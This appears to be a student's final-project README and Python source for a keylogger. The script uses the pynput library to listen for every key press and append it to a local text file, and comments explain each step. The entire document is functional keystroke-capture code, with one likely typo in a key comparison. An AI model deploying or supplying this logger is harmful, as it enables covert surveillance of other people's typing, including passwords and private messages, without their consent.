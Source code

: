 # FinalProject
this is a python project for a keylogger
# In order to use this library I had to go to File/settings/Project/Python interpreter and this library.
from pynput.keyboard import Listener


def log_to_file(stroke):  # This function is created to opened and collect the input of the keystrokes
    key = str(stroke)
    key = key.replace("'", "")  # the reason to use this command is to eliminate the single quotes.
    if key == 'Key.space':
        key = ' '
    if key == 'Key.shift':
        key = ''
    if key == 'Key.ctrl1':
        key = ""
    if key == 'Key.enter':
        key = "\n"
    with open("KeyStrokes.txt", 'a') as f:
        f.write(key)


with Listener(on_press=log_to_file) as l:  # this way the program is always listening
    l.join()
